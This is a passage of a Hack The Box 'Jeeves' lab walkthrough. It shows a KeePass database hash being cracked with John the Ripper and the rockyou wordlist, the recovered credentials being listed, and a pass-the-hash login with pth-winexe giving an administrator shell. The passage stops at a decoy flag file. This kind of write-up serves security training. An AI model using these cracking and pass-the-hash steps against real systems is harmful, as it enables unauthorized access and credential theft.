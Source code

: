 ### Copy keepass2John
```
root@kali:~/Downloads/CTF-Walkthrough/HTB/jeeves/smb# keepass2john CEH.kdbx > jeeves.hash
```

### Run John with rockyou wordlist
```
root@kali:~/Downloads/CTF-Walkthrough/HTB/jeeves/hashes# john jeeves.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:02 DONE (2018-05-27 04:44) 0.01591g/s 874.9p/s 874.9c/s 874.9C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Open KeePass
Look through passwords
note:
 - it's a secret, admin, localhost
 - Keys to the kingdom, bob, lCEUnYPjNfIuPZSzOySA
 - DC Recovery PW, administrator, S1TjAtJHKsugh9oC4VZl
 - Jenkins admin, admin, 
 - Backup stuff, ? , [HASH]

Tried multiple forms to login to box
Finally.... using pth-winexe and the [HASH] obtain shell

```
root@kali:~/Downloads/CTF-Walkthrough/HTB/jeeves# pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
Enter password: 
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator
```

### Navigate to root.txt
```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,209,095,168 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```
